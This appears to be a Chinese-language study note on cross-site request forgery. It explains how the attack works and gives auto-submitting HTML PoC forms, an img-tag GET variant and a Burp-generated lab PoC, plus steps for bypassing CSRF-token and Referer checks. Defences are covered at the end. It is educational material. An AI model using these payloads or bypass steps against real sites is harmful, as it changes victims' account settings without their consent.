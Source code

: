 # CSRF Cross-site request forgery 跨站请求伪造
## CSRF的原理
利用了站点对于合法用户的信任，以用户的名义进行非法的操作

比如

1. `用户C`打开一个浏览器，通过其访问受信任的`网站A`，输入正确的账号和密码登录`网站A`
2. 在用户信息通过验证之后，`网站A`产生`cookie`并返回给用户的浏览器，此时`用户C`登录成功
3. `用户C`在未退出`网站A`之前，在同一个浏览器中，访问`网站B`
4. 这个`网站B`为攻击者搭建的恶意网站；`网站B`在接收到用户请求后，返回一些恶意代码，并发起一个请求要求访问`网站A`
5. 浏览器接到恶意代码后，其中的`cookie`被盗取，这时`网站B`会携带`用户C`的`cookie`，向`网站A`发起一个请求
6. `网站A`并不知道新的请求是攻击者发出，还认为是`用户C`发出的，会根据`用户C`的`cookie`正常执行

一般情况下，会以受害者的名义，发送邮件、更改密码、购物和转账等

综上可总结，发起CSRF的必要条件
* 受害者必须处于登录状态
* 受害者必须要访问攻击者提供的链接/网站

Example

这是一个允许用户修改邮箱的应用，当用户发起修改邮箱的请求时，`HTTP Request`如下
```http request
POST /email/change HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 30
Cookie: session=yvthwsztyeQkAPzeQ5gHgTvlyxHfsAfE

email=wiener@normal-user.com
```
该实例满足了以下条件
* 修改邮箱这种操作攻击者会比较感兴趣，毕竟涉及到隐私
* `HTTP Request`中包含了`cookie`，并且没有其他的例如`token`机制来代替
* 攻击者可以很轻易的修改其中的参数

攻击者搭建一个网页
```html
<html>
<body>
<form action="https://vulnerable-website.com/email/change" method="POST">
    <input type="hidden" name="email" value="pwned@evil-user.net" />
</form>
<script>
    document.forms[0].submit();
</script>
</body>
</html>
```
当受害者访问该恶意网站时
* 恶意网站会向https://vulnerable-website.com/email/change"发送一个`HTTP Request`
* 当用户登录网站时，浏览器会把`cookie`自动的包含进来

## 如何发起CSRF攻击 && CSRF攻击的流程
### 搭建CSRF攻击
1. 使用`Burp Suite`把查看指定网页的请求报文，观察以下参数
   1. 是否是关于敏感信息的修改
   2. 是否包含cookie
   3. 各项参数是否可预期
2. 右键转发到`Repeater`，并选择`Engagement tools` -> `Generate CSRF PoC`
3. 在右上角的`Options`中选择`include auto-submit script`
4. 点击`Regenerate`，并点击`Test in browser`
### How to deliver a CSRF exploit
在这方面`CSRF`与`XSS`是一样的。一般来说攻击者将恶意的`HTML`放到恶意网站上，诱使受害者访问该网站；链接也可以
如果是使用`GET`方法，就可以用`URL`的方式，比如下面，直接使用链接把参数换掉
```html
<img src="https://vulnerable-website.com/email/change?email=pwned@evil-user.net">
```

### CSRF token
如果在观察`HTTP`报文时发现有参数并不符合`predictable`的特性，比如`token`，则需要改变方法；`token`只在`POST`当中使用，所以
* 首先尝试直接删除`token`，因为有些应用碰到`token`会扫描，没有的话就不扫描不报错，其他照旧
* 如果报错，则下一步
* 将`POST`改成`GET`
* 将`token`删去，重新发送

### 绕过Refer
有的时候如`HTTP`报文存在`Refer`则验证，如果没有就不验证
* 直接删除整个`Refer`
* 重复之前的老步骤，不过在`regenerate`的时候加上
```html
<head>
   <meta name="referrer" content="never">
</head>
```
```html
<html>
<!-- CSRF PoC - generated by Burp Suite Professional -->
<head>
   <meta name="referrer" content="never">
</head>
<body>
<script>history.pushState('', '', '/')</script>
<form action="https://0a11004e0301d190c03b5e8b00cd0088.web-security-academy.net/my-account/change-email" method="POST">
   <input type="hidden" name="email" value="Fredrick&#64;outlook&#46;com" />
   <input type="submit" value="Submit request" />
   <meta name="referrer" content="no-referrer">
</form>
<script>
   document.forms[0].submit();
</script>
</body>
</html>
```

## 如何预防CSRF攻击
### CSRF Token
在服务器生产一个`CSRF token`，在每次用户发起`POST`请求时，`HTTP`报文要含有`CSRF token`的信息

如果攻击者想要接着用户的身份与权限去发起伪造请求，这个方法会很有效因为攻击者的攻击会被浏览器检验是否有`expected token`
而`token`攻击者无法获取/伪造
### 验证码
在涉及到修改密码等敏感信息时，让用户输入验证码、图形化验证码等，做到一个身份认证的作用
### HTTP Refer Header && Origin
**Origin**: 在发送`POST`请求的时候加上一个`Origin`字段；
这个`Origin`字段主要是用来标识出最初请求是从哪里发起的，如果浏览器不能确定源在哪里，那么在发送的
请求里面`Origin`字段的值就为空

**Refer Header**:
里面包含`URL`，代表从哪里发出请求

[Origin与Referer的区别](https://www.cnblogs.com/lizm166/p/8931748.html)

### 一些开发框架内置的防御CSRF攻击的机制

## CSRF和XSS的区别

| XSS                                           | CSRF                                                        |
|-----------------------------------------------|-------------------------------------------------------------|
| 用户点击了一个公开网站的链接，用户机器发送一个请求到攻击者的服务器，用户的信息被攻击者窃取 | 用户点击了一个攻击者网站的链接，用户机器发送一个请求到公开网站的服务器，用户的信息不会被窃取，但请求本身可能对用户有害 |
| 攻击者利用了公开网站的漏洞，窃取了用户的信息                        | 攻击者利用了公开网站的漏洞，借用了用户的身份以达成自己的目的                              |
| 利用了用户对公开网站的信任，误以为公开网站不会有恶意代码                  | 利用了公开网站对用户的信任，误以为持有cookie的就是合法用户                            |
| 公开网站存在漏洞，导致网站存在攻击者的恶意代码                       | 发出带有cookie的请求，未必是用户的本意                                      |

